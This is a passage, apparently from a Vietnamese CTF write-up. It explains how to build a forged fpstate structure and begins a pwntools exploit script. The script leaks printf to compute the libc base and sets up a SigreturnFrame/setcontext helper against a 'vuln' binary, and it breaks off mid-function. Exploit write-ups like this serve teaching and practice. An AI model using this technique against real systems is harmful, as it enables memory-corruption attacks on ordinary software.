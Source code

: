 - ta có thể xây dựng **fpsate** như sau : 

```
fpstate = {
    0x00: p16(0x37f),   # cwd
    0x02: p16(0xffff),  # swd
    0x04: p16(0x0),     # ftw
    0x06: p16(0xffff),  # fop
    0x08: 0xffffffff,   # rip
    0x10: 0x0,          # rdp
    0x18: 0x1f80,       # mxcsr (overlaps with ucontext+0x1c0)
    # 0x1c: mxcsr_mask
    # 0x20: _st[8] (0x10 bytes each)
    # 0xa0: _xmm[16] (0x10 bytes each)
    # 0x1a0: int reserved[24]
    # 0x200: [end]
}
```

kết hợp lại tất cả : 


```python
#!/usr/bin/python3
from pwn import *
from sys import argv

e = context.binary = ELF('vuln')
libc = ELF('libc', checksec=False)
ld = ELF('ld', checksec=False)
if len(argv) > 1:
	ip, port = argv[1].split(":")
	conn = lambda: remote(ip, port)
else:
	conn = lambda: e.process()

p = conn()

p.recvuntil(b"printf: ")
printf = int(p.recvline(), 16)
log.info(f"printf: {hex(printf)}")

libc.address = printf - libc.sym.printf
log.info(f"libc: {hex(libc.address)}")

p.recvuntil(b"ptr: ")
ptr = int(p.recvline(), 16)
log.info(f"ptr: {hex(ptr)}")

def setcontext(regs, addr):
	frame = SigreturnFrame()
	for reg, val in regs.items():
		setattr(frame, reg, val)
	# needed to prevent SEGFAULT
	setattr(frame, "&fpstate", addr+0x1a8)
	fpstate = {
	0x00: p16(0x37f),	# cwd
	0x02: p16(0xffff),	# swd
	0x04: p16(0x0),		# ftw
	0x06: p16(0xffff),	# fop
	0x08: 0xffffffff,	# rip
	0x10: 0x0,			# rdp
	0x18: 0x1f80,	    # mxcsr
	# 0x1c: mxcsr_mask
	# 0x20: _st[8] (0x10 bytes each)
	# 0xa0: _xmm[16] (0x10 bytes each)
```